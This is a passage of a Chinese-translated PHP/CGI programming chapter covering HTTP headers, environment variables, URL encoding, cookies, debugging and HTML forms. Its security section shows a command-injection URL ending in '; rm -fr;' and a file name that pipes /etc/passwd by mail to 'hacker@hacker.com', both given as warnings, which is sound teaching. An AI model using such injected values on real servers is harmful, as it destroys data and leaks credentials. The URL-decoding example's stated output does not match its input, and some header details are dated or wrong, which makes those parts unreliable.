另一方面，Java 小程序在需要与用户高度交互时表现出色：例如，游戏或动画。这些小程序需要保持相对较小，因为它们通过互联网传输到客户端。而 CGI 应用程序则可以按需做任意大小，因为它们驻留在 Web 服务器上并在那里执行。

你可以将你的网站设计为同时使用 Java 和 CGI 应用程序。例如，你可能希望在客户端使用 Java 来以图表形式显示信息（参见 http://www.netcharts.com）。Java 小程序可以与 HTML 表单并存。

## CGI 应用与 JavaScript

CGI 和 JavaScript 是两个完全不同的东西。CGI 程序在服务器端执行，而 JavaScript 程序在客户端的 Web 浏览器内执行。你的 CGI 程序可以生成 JavaScript 代码行，包括初始化变量。使用 CGI 程序来初始化 JavaScript 变量为你提供了一种在两种环境之间传递信息的粗略方法。

## 自制还是现成脚本？

我鼓励你使用你能找到的所有预编写脚本。例如，PHPLIB 模块被广泛使用。然而，许多程序员发现对于简单的 CGI 应用程序来说，这些模块过于庞大。另一个值得考虑的问题是，除非脚本得到良好支持或已经存在了一段时间，否则你将发现自己处于一个不太理想的位置——调试另一个程序员的代码——而且你也不会得到报酬。

在本章中，我特意只使用了自制脚本。理解协议背后的机制非常重要。这将使调试应用程序变得更容易，因为你会更清楚这些模块在幕后做了什么。如果你能对文档记录不完善的函数的功能做出有根据的猜测，你也能够更好地利用现有的模块。

## CGI 是如何工作的？

CGI 程序始终放置在 Web 服务器可以访问的磁盘上。这意味着如果你使用拨号账户来维护网站，你需要在运行 CGI 程序之前将其上传到服务器。

### 提示

> 如果你在本地机器上运行 Linux、Apache、MySQL 和 PHP，那么你可以在该机器上测试脚本。在这种情况下，你只需在脚本调试完成后才上传它们。

Web 服务器通常被配置为 CGI 应用程序只能在指定目录中执行。这些限制有助于提高安全性并减少维护难题。Web 服务器可能有别名，从而存在"虚拟目录"。每个用户可能有自己的 CGI 目录。目录位置完全由你的网站管理员控制。

## 调用你的 CGI 程序

运行 CGI 程序最简单的方法是在 Web 浏览器中输入程序的 URL。Web 服务器应该能识别你正在请求一个 CGI 程序并执行它。例如，如果你的本地 Web 服务器上已经有一个名为 test.php3 的 CGI 程序，你可以通过在 Web 浏览器中输入以下 URL 来启动它：

```
http://localhost/cgi-bin/test.php3
```

Web 服务器执行你的 CGI 脚本，所有输出由你的 Web 浏览器显示。

你的 CGI 程序的 URL 是一个虚拟路径。脚本在 Web 服务器上的实际位置取决于服务器软件的配置和所使用的计算机类型。例如，如果你的计算机运行的是 Linux 操作系统和 Apache Web 服务器的"标准"配置，那么上述虚拟路径可能对应为 /usr/local/apache/cgi-bin/test.php3。如果你在 Windows 95 下运行 Web Site Server（来自 O'Reilly），转换后的路径可能是 /website/cgi-shl/test.php3。

如果你自己安装并管理 Web 服务器，你可能知道应该将脚本放在哪里。如果你使用的是服务提供商的 Web 服务器，请询问服务器管理员应该将脚本放在哪里以及如何从你的文档中引用它们。

除了使用 Web 浏览器访问 URL 来调用 CGI 程序之外，还有其他方式。你还可以从以下方式启动 CGI 程序：

*   超文本链接。例如：
    `<A HREF="cgi-bin/test.php3">Click here to run a CGI program</A>`
*   HTML 表单上的按钮。
*   服务器端包含。

确定你的脚本需要放置在哪个目录是创建 CGI 程序的第一步。由于你需要从网站管理员那里获取此信息，请现在就发送电子邮件请求此信息。同时询问是否有你需要遵循的 CGI 限制或准则。


有趣的是，你可以通过在标准 URL 中添加额外信息来向 CGI 程序传递信息。例如，如果你的 CGI 程序用于搜索你的网站，你可以传递一些信息来指定要搜索的目录。以下 HTML 超链接调用一个搜索脚本，并告诉它搜索 /root/document 目录：

```
<A HREF="cgi-bin/search.php3/root/document">
  Search the Document Directory
</A>
```

这个额外的路径信息可以通过 PATH_INFO 环境变量来访问。环境变量将在本章后面的"CGI 与环境变量"部分中讨论。

你也可以使用问号来向 CGI 程序传递信息。

```
<A HREF="cgi-bin/search.php3?Wine+1993">
  Search for 1993 Wines
</A>
```

问号后面的信息可以通过 QUERY_STRING 环境变量提供给 CGI 程序。

使用这两种方法中的任何一种都可以让你创建预设的 CGI 请求。通过提前创建这些请求，你可以减少用户可能出现的输入错误。本章后面的"CGI 与环境变量"部分讨论了所有可以在 CGI 程序中使用的环境变量。

> **注意：** 一般来说，访问你网站的访客不应该需要手动输入 CGI 程序的 URL。应始终提供超文本来启动程序。

## HTTP 头

CGI 程序输出的第一行必须是一个 HTTP 头，它告诉客户端 Web 浏览器正在向其发送什么类型的输出。只有从服务器端包含中调用的脚本才不受此要求的约束。表 12.1 展示了部分 HTTP 头的列表。

### 表 12.1 部分 HTTP 头列表

| 响应类型 | HTTP 头 |
| --- | --- |
| 文本 | Content Type: text/plain |
| HTML 页面 | Content Type: text/html |
| GIF 图形 | Content Type: image/gif |
| 重定向到另一个网页 | Location: http://www.foobar.com |
| Cookie | Set-cookie: ... |
| 错误消息 | Status: 402 |

PHP 提供了 header 函数，这样你就不用担心 HTTP 头的格式化问题了。只需这样做：

```
header('Content Type: text/html');
```

在底层，PHP 执行的操作类似于：

```
echo "Content Type: text/html\n\n";
```

注意，HTTP 头后面跟着两个换行符。这非常重要。所有 HTTP 头后面都必须跟一个空行。

如果你安装了任何 Netscape 的辅助应用程序或熟悉 MIME 类型，你已经认识 Content Type 头中的 text/plain 和 text/html 部分。它们告诉远程 Web 浏览器你正在发送哪种类型的信息。最常用的两种 MIME 类型是 text/plain 和 text/html。

Location 头用于将客户端 Web 浏览器重定向到另一个网页。例如，假设你的 CGI 脚本设计为从十个不同的 URL 中随机选择，以确定下一个显示哪个网页。当新的网页被选中后，你的程序这样输出：

```
echo "Location: $nextPage\n\n";
```

一旦 Location 头被打印出来，就不应该再打印其他任何内容。这就是客户端 Web 浏览器所需的全部信息。

Cookie 和 Set-cookie 头将在本章后面的"Cookie"部分中讨论。

最后一种 HTTP 头是 Status 头。当你的脚本中出现你的程序无法处理的错误时，应该发送此 HTTP 头。除非你面临严重的时间压力需要完成项目，否则不应该使用此 HTTP 头。你应该尝试创建自己的错误处理例程，显示一个完整的网页来解释发生的错误以及用户可以采取什么措施来修复或规避它。你可以包括时间、日期、错误类型、联系人姓名、电话号码以及任何可能对用户有用的信息。依赖 Web 服务器和浏览器的标准错误消息会让你的网站不太友好。

## CGI 与环境变量

当 CGI 程序启动时，Web 服务器会创建并初始化一些环境变量。这些变量保存诸如客户端的 IP 地址、Web 服务器的名称等信息。不幸的是，似乎每个 Web 服务器都支持不同的环境函数集。

如果你想查看你的脚本可以使用的环境变量，你有两个选择。两者都在以下代码中展示：

```
// Option 1: examine all variables available in
// your php scripts.
while (list($key, $value) = each($GLOBALS)) {
  echo "$key: $value<br>";
}

// Option 2: use the phpinfo function and examine
// the sections called "PHP Variables" and
// "Apache Environment".
phpinfo();
```

此代码片段显示脚本定义的所有 PHP 变量。尽管并非所有变量都是 CGI 变量，但大多数都是。一些可能的环境变量如表 12.2 所示。

### 表 12.2 部分 CGI 环境变量

| 变量名 | 描述 |
| --- | --- |
| AUTH_TYPE | 可选地提供用于访问你的脚本的认证协议，前提是本地 Web 服务器支持认证，并且使用了认证来访问你的脚本。 |
| CONTENT_LENGTH | 可选地提供 Web 服务器提供给脚本的内容长度（以字节为单位）。PHP 程序员永远不需要这个变量，因为他们可以使用 $HTTP_POST_VARS 数组。 |
| CONTENT_TYPE | 可选地提供从 STDIN 文件句柄获取的内容类型。这用于表单处理的 POST 方法。大多数时候此变量为空，你可以假定其值为 application/octet-stream。这是另一个你应该可以忽略的变量。 |
| DOCUMENT_ROOT | 保存 Web 文档树的根目录名称。在正常的 Apache 安装中，此值为 /usr/local/apache/htdocs。 |
| GATEWAY_INTERFACE | 提供本地 Web 服务器支持的 CGI 版本。大多数时候版本为 CGI/1.1。 |
| HTTP_ACCEPT | 提供浏览器软件接受的 MIME 类型的逗号分隔列表。你可以检查此环境变量以查看客户端是否接受某种图形文件。此变量的一个示例为 image/gif, image/x-xbitmap, image/jpeg, image/pjpeg, image/png, */*。 |
| HTTP_USER_AGENT | 提供用户 Web 浏览器的类型和版本。例如，Netscape Web 浏览器被称为 Mozilla。 |
| HTTP_FROM | 提供用户的电子邮件地址。并非所有 Web 浏览器都会向你的服务器提供此信息。因此，此字段仅用于为 HTML 表单提供默认值。 |
| QUERY_STRING | 当使用表单处理的 GET 方法时，可选地包含表单信息。QUERY_STRING 也用于将搜索关键字等信息传递给 CGI 脚本。PHP 程序员永远不需要这个变量，因为他们可以使用 $HTTP_GET_VARS 数组。 |
| PATH_INFO | 可选地包含调用脚本的 HTTP 请求中的任何额外路径信息。 |
| PATH_TRANSLATED | 将脚本的虚拟路径（即从服务器目录的根目录开始的路径）映射到调用脚本所使用的物理路径。 |
| REMOTE_ADDR | 包含用户的点分十进制地址。 |
| REMOTE_HOST | 可选地提供用户连接的站点的域名。 |
| REMOTE_IDENT | 当你的本地服务器已联系客户端机器上的 IDENTD 服务器时，可选地提供客户端标识。你很少会看到这个，因为 IDENTD 查询很慢。 |
| REMOTE_USER | 可选地提供用户用于访问你的安全脚本的名称。 |
| REQUEST_METHOD | 通常包含 GET 或 POST——即表单信息提供给脚本的方法。PHP 程序员永远不需要这个变量，因为他们可以使用 $HTTP_GET_VARS 和 $HTTP_POST_VARS 数组。 |


| 变量名 | 说明 |
| --- | --- |
| SCRIPT_NAME SCRIPT_FILENAME | 包含脚本的路径。PHP 提供了一个名为 $PHP_SELF 的变量，其中包含脚本的名称。 |
| SERVER_NAME | 包含服务器配置的主机名。 |
| SERVER_PORT | 包含本地 Web 服务器软件正在监听的端口号。标准端口号是 80。 |
| SERVER_PROTOCOL | 包含该服务器使用的 Web 协议版本。例如，HTTP/1.0。 |
| SERVER_SOFTWARE | 包含 Web 服务器软件的名称和版本。例如，webSite/1.1e。 |

以上每个环境变量都可以作为普通 PHP 变量使用。例如，你可以使用 $PHP_SELF 来确定当前脚本的文件名。使用 $PHP_SELF 可能会降低程序的健壮性，因为 $PHP_SELF 可以被修改——即使只是意外修改。如果你需要确保获取到环境变量的真实值，可以在 PHP 中使用 `getenv` 函数，如下所示：

```php
$PHP_SELF = getenv("PHP_SELF");
```

## URL 编码与解码

WWW 组织对 HTTP 协议施加的限制之一是，客户端与服务器之间传递的命令、响应和数据内容必须定义清晰。有时仅从上下文很难判断一个空格字符究竟是字段分隔符，还是数据的不可分割部分——例如 "David Medinets" 中的空格。

为了消除这种歧义，诞生了 URL 编码方案。所有空格都会被转换成加号（+），以避免语义上的歧义。此外，特殊字符或 8 位值会被转换为对应的十六进制形式，并在前面加上百分号（%）。例如，字符串 Davy Jones <dj@mtolive.com> 会被编码为 `Davy+Jones+%3Cd.j%40mtolive.com%3E`。仔细观察可以看到，< 字符被转换成了 `%3C`，> 字符被转换成了 `%3E`。

### 使用 `rawurlencode` 函数

手动完成从普通文本到编码文本的转换非常繁琐。幸运的是，PHP 提供了 `rawurlencode` 函数。每当你通过 URL 传递信息时，都应该大量使用该函数。如果你不对每个 URL 参数使用 `rawurlencode`，你的 Internet 应用就会变得脆弱——意外值可能导致脚本中断。以下是 `rawurlencode` 的实际示例：

```php
<?php
  $username = 'Davy Jones';
  $email    = "d.j@mtolive.com";
  $url_params = rawurlencode("$username <$email>");
  $url      = "sendmail.php3?from=$url_params";

  echo "<a href=\"$url\">Send Mail</a><br>";
?>
```

如果显示上述代码生成的 HTML 源代码，你会看到：

```html
<a href="sendmail.php3?from=Davy%20Jones%20%3Cd.j%40mtolive.com%3E">Send Mail</a><br>
```

### 自动解码

PHP 会在脚本访问之前自动将 URL 编码的信息转换为“普通”信息。我们可以通过以下步骤验证这一特性：

1.  创建一个文件 `a.html`，其中包含以下内容：

```html
<a href="a.php3?foo=D+M+%3Cmedined%40mtolive.com%3E">
Click Here to Test URL Encoding.
</a>
```

2.  创建一个文件 `a.php3`，其中包含以下内容：

```php
<?php
  echo "$foo!<br>";
?>
```

3.  在 Web 浏览器中加载 `a.html` 文件，然后点击链接。结果页面应显示如下内容：

```
!aaa bbb<@bbbb!
```

## 安全

> 我不是 Web 安全方面的专家。对于这个关键主题，请进行进一步研究！

**警告**

在我看来，CGI 其实只有一个比较大的安全漏洞。如果你把来自远程站点的信息传递给操作系统命令，那就是自找麻烦。让我们通过一个示例来理解这个问题，因为它并不明显。

假设你有一个 CGI 脚本，用于格式化目录列表并生成一个 Web 页面，让访问者可以查看该列表。此外，假设要显示的目录名称通过 `PATH_INFO` 环境变量传递给你的程序。可以使用如下 URL 调用你的程序：

```
http://www.foo.com/cgi-bin/dirlist.php3/docs
```

在你的程序内部，`PATH_INFO` 环境变量被设置为 `docs`。为了获取目录列表，只需调用 **ls** 命令即可。一切看起来都没问题，对吧？但如果使用如下 URL 调用 `ls` 程序会怎样？

```
http://www.foo.com/cgi-bin/dirlist.php3/; rm -fr;
```

突然间，你就可能面临文件被删除的风险，因为分号允许在一行命令中执行多个命令。

每当你尝试运行外部命令时，都可能存在这类安全漏洞。在编写 CGI 程序时，你可能会为了节省时间而想要使用 **mail**、**sendmail** 或 **grep** 命令，但由于这些功能都可以很容易地用 PHP 实现，因此请尽量抵制这种诱惑。

另一个安全漏洞与使用外部数据来打开或创建文件有关。某些别有用心的黑客可能会使用 ` | mail hacker@hacker.com < /etc/passwd` 作为文件名，从而将你的密码文件或其他文件发送给他自己。

所有这些安全漏洞都可以通过使用 PHP 的 `escapeshellcmd` 函数去除危险字符（如 `|` 或管道字符）来避免。用法如下：

```php
$str_command = 'ls -l';
system(escapeshellcmd($str_command));
```

## Cookie

大多数网站管理员都希望跟踪用户在网站中逐页点击浏览的过程。不幸的是，HTTP 是一种无状态协议。无状态协议没有记忆能力，它只理解当前命令。这使得跟踪访问者在网站中的行为变得非常困难。用户可能会访问一个网站，离开，然后在一天或一分钟之后再次返回，可能还使用了不同的 IP 地址，而网站维护者无法判断这是否是同一个访问者。

解决这一困境的方法之一是在 CGI 程序中使用 *cookie*。Cookie 可以提供一种在一次 HTTP 请求到下一次 HTTP 请求之间保持信息的方式。（还记得持久化信息的概念吗？）Cookie 是 Web 服务器存储在访问者本地硬盘上的一小块数据。它可以用来跟踪你在网站中的浏览路径，并构建访问者画像，用于营销或信息目的。Cookie 还可以用于保存账号、购买决定等信息，从而创建购物类应用。

### Cookie 安全性

关于 cookie 是否安全一直存在一些争议。尽管 cookie 机制允许 Web 服务器向你的硬盘写入数据，但其限制非常严格。客户端同时最多只能保存 300 个 cookie，单个服务器最多只能向客户端发送 20 个 cookie。每个 cookie 只能有 4 KB（包括名称和数据），因此访问者硬盘上用于存储 cookie 的最大空间为 1.2 MB。此外，cookie 数据只能写入一个文件，通常名为 `cookies.txt`。

在浏览会话期间，Netscape 将 cookie 存储在内存中，但退出浏览器时，cookie 会被写入一个名为 `cookies.txt` 的文件中——假设它们在浏览会话结束时尚未过期。在 Macintosh 上，cookie 罐位于首选项文件夹中一个名为 MagicCookie 的文件里。

### Cookie 是如何创建和读取的？

Cookie 通过 `Set-Cookie:` HTTP 头部设置，包含五个可能的字段，各字段之间用分号和空格分隔。这些字段如下：

-   **cookie-name=cookie-value;**——cookie 的名称及其值。名称和值的总长度必须小于 4 KB。
-   **expires=expiration-date;**——cookie 从 cookie 文件中删除的日期。你可以通过创建第二个具有相同名称、路径和域但过期日期为过去的 cookie，提前删除一个已设置的 cookie。
-   **path=cookie-path;**——与域名结合，用于确定浏览器何时向服务器发送 cookie。
-   **domain=server-domain;**——用于确定浏览器何时向服务器发送 cookie。通常，cookie 是使用不带 www 的 Web 服务器名称创建的。例如，使用 .foo.net 而不是 www.foo.net。注意保留前导句点。
-   **secure**——确保只有在建立了安全 HTTP 连接时，cookie 才会被发送回服务器。

当所有这些元素组合在一起时，看起来如下所示：

```
Set-Cookie: user_addr=ppl.dialin.iupui.edu;
expires=Wednesday, 09-Nov-99 00:00:00 GMT; path=/cgi-bin/;
domain=.engr.iupui.edu; secure
```

Web 服务器通过 `HTTP_COOKIE` 环境变量将 cookie 信息传递给 CGI 程序。各 cookie 之间用分号和空格分隔，cookie 字段之间用逗号分隔，名称-值对之间用等号分隔。幸运的是，你正在使用 PHP！PHP 会自动解析 `HTTP_COOKIE` 变量，将结果放入 `$HTTP_COOKIE_VARS` 数组，同时也会放入普通 PHP 变量中。如果你有一个名为 "user" 的 cookie，可以使用 `$user` 访问其值。


### 清单 12.1 cookie.php3—使用 setcookie 函数设置 cookie

```php
<?php // cookie.php3

// 删除一个 cookie。
setCookie('userid');

// 设置一个 cookie 的值。
setCookie('user', 'waswaldo');

// 设置一个 cookie 在 4 小时后过期。
// 时间参数以秒为单位。
setCookie('gender', 'male', time()+14400);

// 创建一个只有 phpbook 目录下的脚本才能读取的 cookie。
setCookie('car',
    'honda:accord:88:LXI:green'
    ,time()+14400
    ,'/phpbook/');

// 设置完成后，可以使用普通的 PHP 变量访问 cookie。
echo "user: <b>$user</b><br>";
echo "car: <b>$car</b><br>";
?>
```

清单 12.1 包含一个操作 cookie 的程序。首先，它删除一个名为 "userid" 的 cookie，然后创建三个 cookie，最后显示这些 cookie 的值。

### 访问者的浏览器是否支持 Cookie？

使用 cookie 时可能遇到的一个困难是，并非每个浏览器都能支持它们。如果你在使用 cookie，你需要一种用户友好的方式来告诉访问者，他们尝试使用的功能对他们不可用。

另一个困难在于，你设置的 cookie 不能被当前页面请求访问，只能被后续请求访问。因此，你需要设置 cookie，然后强制浏览器自动重新加载一个新脚本。新脚本可以确定 cookie 是否实际被设置，或者是否会被忽略。

清单 12.2 展示了一种自动确定访问者 Web 浏览器是否支持 cookie 的方法。该 CGI 程序设置一个 cookie，然后将访问者的 Web 浏览器重定向回自身，并附加一些额外的路径信息（TESTING 字面量）。当脚本（在第二次调用时）看到额外的路径信息时，它会检查先前创建的 cookie。如果存在，则访问者的浏览器通过了测试。否则，访问者的浏览器不支持 cookie。

### 清单 12.2 test.php3—测试 cookie 支持

```php
<?php // test.php3

// 如果 QUERY_STRING 不是 TESTING，则
// 需要设置 cookie。
if ($QUERY_STRING != 'TESTING') {
  setcookie("cookie", "test");
  // Location 标头重新加载脚本。
  header("Location: $PHP_SELF?TESTING");
}

// 如果 cookie 存在，显示成功消息。
// 否则显示错误消息。
if ($cookie == 'test') {
  header("Content-type: text/html");
  echo '<html>';
  echo "<head><title>COOKIE Test</title></head>";
  echo "<body>";
  echo "Your browser, <b>$HTTP_USER_AGENT</b>,";
  echo " supports the Netscape HTTP Cookie";
  echo " specification.";
  echo "</body></html>";
}
else {
  header("Content-type: text/html");
  echo '<html>';
  echo "<head><title>COOKIE Test</title></head>";
  echo "<body>";
  echo "Your browser, $HTTP_USER_AGENT, doesn't";
  echo " appear to support the Netscape HTTP Cookie";
  echo " specification.";
  echo "</body></html>";
}
?>
```

当然，这个脚本在实际情况下相当无用。但它确实展示了需要使用哪些 HTTP 标头来解决这些问题。

Cookie 主要用于在访问之间存储有关访问者的信息。例如，你可能想要跟踪他们访问了多少次、他们的客户编号或 ID，以及他们上次访问的日期和时间。

## 调试 CGI 程序

使用 CGI 程序的主要原因之一是生成 HTML 文档。当出现问题时，最常见的错误消息是 "500 Server Error"。这个最没有帮助的消息可能由多种原因引起。例如，输出的第一行是无效的 HTTP 标头，HTTP 标头后可能没有空行，或者你可能只是有一个语法错误。

### 将输出发送到服务器的日志文件

在服务器日志文件中跟踪错误消息是一种快速简便的调试方法。此外，你始终知道消息在哪里，如果你与程序员团队一起工作，这会很有帮助。

PHP 提供了 error_log 来将错误消息发送到 Web 服务器的日志文件、电子邮件地址和其他地方。我们将在本节中集中讨论日志文件选项。清单 12.3 使用 error_log 函数向 Web 服务器的日志文件添加两条消息。

### 清单 12.3 server_log.php3—error_log 函数将消息发送到 Web 服务器的日志文件

```php
<?php // server_log.php3
    header("Content-type: text/plain\n\n");
    echo "This is line one.\n";
    error_log("GOOD Status\n");
    error_log("BAD  Status\n");
    echo "This is line two.\n";
?>
```

该脚本在 Web 浏览器中显示以下行：

```
This is line one.
This is line two.
```

但更重要的是，它向 /usr/local/apache/htdocs/error_log 添加以下行：

```
httpd: [Tue Jun 22 20:48:11 1999] [error] GOOD Status
httpd: [Tue Jun 22 20:48:11 1999] [error] BAD  Status
```

至少，这是我系统上的 Web 服务器日志。如果你以不同的方式安装了服务器，那么你也应该知道 Web 服务器存储其日志文件的目录。

为了在服务器日志中轻松找到错误消息，你应该为错误消息添加一个标识前缀：

```php
error_log("PHP: GOOD Status\n");
```

### 生成错误 HTML 页面

将所有极有可能产生错误的程序语句隔离在程序开头是个好主意。或者至少在发送 HTTP 标头之前。这允许你创建与遇到的特定错误相对应的 HTML 响应页面。清单 12.4 展示了这个概念的简单示例。你可以扩展这个示例以涵盖许多可能发生的不同错误。图 12.1 显示了 error_exit 函数生成的典型错误页面。

### 清单 12.4 error.php3—如何交付错误 Web 页面的示例

```php
<?php // error.php3

  function error_exit($message) {
    header("Content-type: text/html");
    echo "<HTML>\n";
    echo "<HEAD><TITLE>CGI Error</TITLE></HEAD>\n";
    echo "<H1>Status: 500 An Error Has Occurred</H1>\n";
    echo "<HR>\n";
    echo "$message\n";
    echo "</BODY>\n";
    echo "</HTML>\n";
    exit();
  }

  if ($some_variable != 'ADD') {
    error_exit("This script only processes ADD commands");
  }

?>
```


图 12.1 error_exit 函数生成的典型错误页面。

## 表单处理

没有提及 HTML 表单的 CGI 章节是不完整的。尽管你已经在本书前面使用过 HTML 表单（参见第 5 章，"插曲一：连接到数据库"），但本章提供了更深入的信息。当脚本中出现错误时，了解 HTML 表单与 Web 服务器之间的交互对调试有很大帮助。

### HTML 简介

HTML，即*超文本标记语言*（*Hypertext Markup Language*），由 Web 程序员用来描述 Web 页面的内容。它不是一种编程语言。你只是使用 HTML 来指示某段文本是什么，例如段落、标题或特殊格式的文本。所有 HTML 指令都使用匹配的尖括号集指定，通常称为标签。例如，`<B>` 表示以下文本应以粗体显示。要停止粗体文本，请使用 `</B>` 指令。大多数 HTML 指令成对出现并围绕受影响的文本。

HTML 文档需要具有某些标签才能被认为是"正确的"。`<HEAD>`..`</HEAD>` 标签集围绕每个文档的头部信息。在头部内，你可以使用 `<TITLE>`..`</TITLE>` 标签指定文档标题。

> HTML 标签不区分大小写。例如，`<TITLE>` 与 `<title>` 相同。然而，在 HTML 标签中使用全部大写字母使 HTML 文档更容易理解，因为你可以更容易地识别出标签。

在文档头部之后，你需要有一组 `<BODY>`...`</BODY>` 标签。在文档正文中，你可以通过使用一组 `<H1>`...`</H1>` 标签来指定文本标题。更改 H 后面的数字会改变标题级别。例如，`<H1>` 是第一级。`<H2>` 是第二级，依此类推。

你可以使用 `<P>` 标签指示段落结尾，或使用 `<BR>` 指示换行。`<B>`...`</B>` 和 `<I>`...`</I>` 标签用于指示粗体和斜体文本。

整个 HTML 文档的文本和标签必须被一组 `<HTML>`...`</HTML>` 标签包围。例如：

```
<HTML>
<HEAD><TITLE>This is the Title</TITLE></HEAD>
<BODY>
<H1>This is a level one header</H1>
<P>This is the first paragraph.
<P>This is the 2nd paragraph, it has <I>italic</I> text.
<H2>This is a level two header</H2>
<P>This is the 3rd paragraph, it has <B>bold</B> text.
</BODY>
</HTML>
```

大多数情况下，你将在 `<BODY>`...`</BODY>` 标签内插入或修改文本。

### HTML 表单

HTML 表单旨在让 Web 页面设计者通过让用户填写表单来与用户交互。表单可以由输入框、按钮、复选框、单选按钮和选择列表等元素组成。所有表单元素都使用被一组 `<FORM>`...`</FORM>` 标签包围的 HTML 标签指定。每个 HTML 文档可以有多个表单。

`<FORM>` 标签有几个修饰符或选项。其中两个最重要的是 METHOD 和 ACTION：


## 处理表单信息

-   **METHOD** — 指定将表单信息传递给 CGI 脚本的方式。其常见值为 GET 或 POST。
-   **ACTION** — 指定单击提交按钮时将调用的 CGI 脚本的 URL。你也可以使用 `mailto:` 表示法来指定一个电子邮件地址。例如，发送邮件可以通过 `ACTION="mailto:medined@mtolive.com"` 来完成，而调用 CGI 脚本则可以通过 `ACTION="/cgi-bin/feedback.php3"` 来完成。

大多数字段元素使用 `<INPUT>` 标签定义。与 `<FORM>` 标签类似，`<INPUT>` 有几个修饰符。最重要的是：

-   **CHECKED** — 指定正在定义的复选框或单选按钮被选中。此修饰符仅应在元素类型为复选框或单选按钮时使用。
-   **NAME** — 指定表单元素的名称。大多数表单元素需要具有唯一的名称。
-   **SIZE** — 指定输入字段的大小。
-   **MAXLENGTH** — 指定用户可以在表单元素中输入的最大字符数。如果 MAXLENGTH 属性大于 SIZE 属性，用户可以滚动查看不可见的文本。
-   **TYPE** — 指定输入字段的类型。最重要的字段类型包括 checkbox、hidden、password、radio、reset、submit 和 text。
-   **VALUE** — 指定字段的默认值。单选按钮必须使用 VALUE 修饰符。

让我们看看如何指定一个纯文本字段：

```
<INPUT
    TYPE="text"
    NAME="nickname"
    VALUE="WasWaldo"
    SIZE="25"
    MAXLENGTH="50"
>
```

这行 HTML 指定了一个默认值为 `WasWaldo` 的输入字段。输入框长度为 25 个字符，但用户最多可以输入 50 个字符。

有时，你可能希望用户能够输入文本，而这些文本不可读。例如，密码需要受到保护，这样路过的用户就无法偷偷窃取它们。为了创建受保护的字段，请使用密码 `type`：

```
<INPUT TYPE=password NAME=password SIZE=10>
```

> **注意**
> 密码输入选项仍然会在没有任何加密的情况下通过互联网发送文本。换句话说，数据仍然是以明文形式发送的。密码输入选项的唯一功能是确保密码在输入时在屏幕上不可见。

`<INPUT>` 标签还用于定义两种可能的按钮——提交按钮和重置按钮。提交按钮将表单数据发送到指定的 URL；换句话说，发送到一个 CGI 程序。重置按钮将表单上的输入字段恢复为其默认状态。用户输入的任何信息都会丢失。通常，使用 VALUE 修饰符来更改按钮上显示的文本。例如：

```
<INPUT TYPE="submit" VALUE="Process Information">
```

隐藏字段通常被用作将信息偷偷传递给 CGI 程序的方式。即使字段是隐藏的，当单击提交按钮时，字段名称和值仍然会发送到 CGI 程序。例如，如果你的脚本生成了一个电子邮件表单，你可能会包含一个在发送消息时将被抄送的电子邮件地址列表。由于表单用户不需要看到该列表，因此该字段可以隐藏。当单击提交按钮时，隐藏字段仍然会与其他表单信息一起发送到 CGI 程序。

> **注意**
> 如果访客使用许多浏览器中提供的“查看源代码”选项，隐藏字段是可见的。因此，*切勿*将敏感信息（如密码）放入隐藏字段中。

最后两种输入类型是复选框和单选按钮。复选框让用户指示两种响应中的一种。表单上的方框要么被选中，要么未被选中。复选框背后的含义完全取决于你放在其旁边的文本。当用户可以选中任意多个项目时，可以使用复选框。例如：

```
<INPUT TYPE="checkbox" NAME="orange" CHECKED>
  你喜欢橙色吗？
<INPUT TYPE="checkbox" NAME="blue" CHECKED>
  你喜欢蓝色吗？
```

单选按钮强制用户从选项列表中只选择一个。不建议对大量项目（例如，超过五个）使用单选按钮，因为它们在网页上占用太多空间。应改用 `<SELECT>` 标签。每组单选按钮必须具有相同的名称，但具有不同的值。例如：

```
操作系统：<BR>
<INPUT TYPE="radio" NAME="os" VALUE="Win95">Windows 95
<INPUT TYPE="radio" NAME="os" VALUE="WinNT">Windows NT
<INPUT TYPE="radio" NAME="os" VALUE="UNIX" CHECKED>UNIX
<INPUT TYPE="radio" NAME="os" VALUE="OS2">OS/2
CPU 类型：<BR>
<INPUT TYPE="radio" NAME="cpu" VALUE="Pentium">
  Intel Pentium
<INPUT TYPE="radio" NAME="cpu" VALUE="Alpha" CHECKED>
  DEC Alpha
<INPUT TYPE="radio" NAME="cpu" VALUE="Unknown">
  未知
```

你应该始终为单选按钮提供一个默认值，因为假定必须选择其中一个。通常，提供一个“无”或“未知”单选按钮（如上面示例中的 CPU 类型）是合适的，这样用户就不会被迫随机选择一个项目。

另一个有用的表单元素是由 `<SELECT>..</SELECT>` 标签组指定的下拉列表输入字段。这种表单元素提供了一种紧凑的方式，让用户从列表中选择一个项目。选项放在 `<SELECT>..</SELECT>` 标签内。例如：

```
<SELECT NAME=weekday>
<OPTION SELECTED>星期一
<OPTION>星期二
<OPTION>星期三
<OPTION>星期四
<OPTION>星期五
</SELECT>
```

你可以使用 SELECTED 修饰符使其中一个选项成为默认值。当你有三个或更多选项可供选择时，下拉列表非常有用。如果你的选项较少，请考虑使用单选按钮。`<SELECT>` 标签有其他选项，可以为你提供更多灵活性。

我们应该讨论的最后一个表单元素是文本框。你可以使用 `<TEXTAREA>..</TEXTAREA>` 标签组创建一个多行输入字段或文本框。`<TEXTAREA>` 标签需要 ROWS 和 COLS 修饰符。你可以在 `<TEXTAREA>..</TEXTAREA>` 标签内放置任何文本框的默认文本。

```
<TEXTAREA NAME="comments" ROWS="3" COLS="60">
文本框内的文本。
</TEXTAREA>
```

用户的网络浏览器会根据需要自动提供滚动条。但是，除非将 WRAP 属性设置为 "virtual"，否则文本框不会自动换行。例如：

```
<TEXTAREA NAME="comments" ROWS="3" COLS="60" WRAP="virtual">
```

如果未使用 WRAP 属性，用户必须按 **Enter** 键才能开始新行。WRAP 属性还有其他选项（如 "physical"）可用。任何好的 HTML 书籍都可以提供更多信息。

## 处理表单信息

你的表单接收表单信息有两种方式——GET 方法和 POST 方法。传递机制在 `<FORM>` 标签中使用 METHOD 修饰符指定。例如，以下 HTML 行告诉客户端网络浏览器使用 GET 方法将表单信息发送回服务器：

```
<FORM METHOD="get" ACTION="/cgi-bin/gestbook.php3">
```

GET 方法将所有表单数据附加到用于调用 CGI 脚本的 URL 末尾。使用问号分隔原始 URL（在 `<FORM>` 标签的 ACTION 修饰符中指定）和表单信息。然后，服务器软件将这些信息放入 `QUERY_STRING` 环境变量中，供处理表单的 CGI 脚本使用。

GET 方法不能用于较大的表单，因为某些 Web 服务器会限制请求中 URL 部分的长度。（请查看你特定服务器的文档。）这意味着如果使用 GET 方法提交，较大的表单可能会失败。对于较大的表单，POST 方法是解决方案。

